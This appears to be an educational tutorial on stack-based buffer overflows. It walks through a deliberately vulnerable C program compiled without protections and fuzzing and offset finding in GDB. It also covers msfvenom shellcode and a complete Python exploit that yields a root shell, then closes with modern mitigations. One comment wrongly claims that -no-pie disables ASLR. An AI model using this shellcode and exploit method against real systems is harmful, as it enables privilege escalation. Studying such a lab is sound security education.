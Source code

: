 # Binary Exploitation: A Practical Guide to Buffer Overflows 💥

This guide provides a comprehensive overview and a practical, step-by-step methodology for understanding, identifying, and exploiting a classic stack-based buffer overflow.

**Disclaimer:** This is for educational and ethical research purposes only. The techniques described should only be performed on systems you own or have explicit permission to test. This example uses a simplified 32-bit binary with modern protections disabled to clearly demonstrate the core concepts.

---

### ## 1. Understanding the Vulnerability

A **buffer overflow** is a vulnerability that occurs when a program attempts to write more data into a fixed-size block of memory (a "buffer") than it can hold. This overflow can corrupt adjacent memory, and if done carefully, can overwrite critical program data like the **return address**.

The return address is a pointer on the stack that tells a function where to return to after it has finished executing. By overwriting this address, an attacker can hijack the program's execution flow and redirect it to their own malicious code (**shellcode**).

---

### ## 2. The Setup: Creating a Vulnerable Environment

To learn, we must first create a controlled, vulnerable environment.

#### **A. The Vulnerable Program (`vuln.c`)**
This simple C program uses the unsafe `strcpy` function, which does not perform bounds checking and is the source of our vulnerability.

```c
#include <stdio.h>
#include <string.h>

void vulnerable_function(char *input) {
    char buffer[100];
    // VULNERABLE LINE: strcpy does not check the size of the input.
    strcpy(buffer, input);
}

int main(int argc, char **argv) {
    if (argc > 1) {
        vulnerable_function(argv[1]);
    }
    return 0;
}
```

#### **B. Compilation (Disabling Protections)**

We compile the code as a 32-bit binary and disable modern security features that would otherwise prevent this classic exploit.

```bash
# -m32: Compile as 32-bit
# -fno-stack-protector: Disables stack canaries
# -z execstack: Makes the stack executable (disables NX/DEP)
# -no-pie: Disables Position-Independent Executable (turns off ASLR)
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vuln vuln.c

# Set the SUID bit to simulate a privileged binary
sudo chown root:root vuln
sudo chmod u+s vuln
```

#### **C. Required Tools**

* **GDB:** The GNU Debugger. We'll use an enhancement like GEF, PEDA, or Pwndbg for better readability.
* **Python:** For scripting and generating payloads.

---

## 3. The Methodology: From Crash to Shell

This is the step-by-step process to find and exploit the vulnerability.

### **Step 1: Fuzzing to Find the Crash**

First, confirm the program is vulnerable by sending it a long string of characters and verifying that we can control the instruction pointer (EIP).

**Procedure:**

1.  Start the program within GDB.
    ```bash
    gdb ./vuln
    ```
2.  Run the program with a long string of 'A's (hex 0x41).
    ```
    (gdb) run $(python -c 'print("A" * 300)')
    ```
3.  Analyze the crash.
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0x41414141 in ?? ()

    (gdb) info registers eip
    eip            0x41414141      0x41414141
    ```

**Result:** The EIP register now contains `0x41414141`. This confirms we have control over the program's execution flow.

### **Step 2: Finding the Exact Offset**

Now, we need to find the exact number of bytes required to overwrite the EIP. We do this using a unique, non-repeating pattern.

**Procedure:**

1.  Generate a unique pattern of 300 bytes.
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 300
    # Output: Aa0Aa1Aa2...
    ```
2.  Run the program in GDB with this unique pattern.
    ```
    (gdb) run Aa0Aa1Aa2...
    ```
3.  The program will crash. Note the value in the EIP register (e.g., `0x61413461`).
4.  Calculate the offset using the EIP value.
    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x61413461
    # Output: [*] Exact match at offset 112
    ```

**Result:** We now know that the EIP is overwritten starting at byte 112.

### **Step 3: Generating Shellcode**

Shellcode is a small piece of machine code that performs an action, typically spawning a shell (`/bin/sh`).

**Command (msfvenom):**

```bash
# Generate 32-bit Linux shellcode to spawn /bin/sh, avoiding null bytes
msfvenom -p linux/x86/exec CMD=/bin/sh -b '\x00' -f python
# Output:
# buf =  b""
# buf += b"\xdb\xcb\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0b..."
```

### **Step 4: Building and Executing the Final Exploit**

We assemble a final payload with the structure: `JUNK + NEW_EIP + NOP_SLED + SHELLCODE`.

* **JUNK:** 112 bytes of padding to reach the return address.
* **NEW_EIP:** The address we want to jump to. This should point to our NOP Sled on the stack. We can find a suitable stack address using GDB (`info frame`).
* **NOP Sled:** A series of "No-Operation" instructions (`\x90`) that act as a landing strip.
* **SHELLCODE:** The machine code generated in Step 3.

**Exploit Script (`exploit.py`):**

```python
import struct

# 1. Find the offset (we found 112)
junk = b"A" * 112

# 2. Find a return address. Run 'info frame' in GDB after a crash.
#    Let's assume we find a good address at 0xffffd6a0
new_eip = struct.pack("<I", 0xffffd6a0)

# 3. Create a NOP sled
nops = b"\x90" * 32

# 4. Add the shellcode from msfvenom
shellcode = b"\xdb\xcb\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0b\x83\xeb\xfc\x31\x53\x13\x03\x70\x05\x06\xe3\x08\x91\x34\x51\x70\x9b\x01\x64\x7a\x6b\xca\x07\x07\x1c\x26\x91\x2c\x41\x59\xbd\x95\xc2\xde\xcd\x05\x18\x70\xc3\x25\x05\x0e\x6b\x8f\x8d\x46\x37\x96\x60\xf3\x11\x5a\x27\x5e\x15\x4a\x91\x4a\x0c\x82\x04\x40\x12\x7b\x2f\x62\x69\x6e\x2f\x73\x68"

# 5. Combine and print the payload
payload = junk + new_eip + nops + shellcode
print(payload.decode('latin-1'))
```

**Execution:**

```bash
# Run the vulnerable program with the output of our script as the argument
./vuln "$(python exploit.py)"

# If successful, you will have a new shell!
$ whoami
root
```

---

## 4. Modern Mitigations

Modern systems are protected against this classic attack. Understanding these defenses is key to secure coding.

* **Stack Canaries:** A secret value placed on the stack before the return address. If this value is changed by an overflow, the program safely aborts.
* **ASLR (Address Space Layout Randomization):** Randomizes the memory locations of the stack, libraries, and heap, making it difficult for an attacker to know what address to jump to.
* **DEP/NX Bit (Data Execution Prevention / No-Execute):** Marks memory regions like the stack as non-executable. Even if an attacker redirects EIP to the stack, the CPU will refuse to execute the shellcode. This defense led to more advanced techniques like Return-Oriented Programming (ROP).

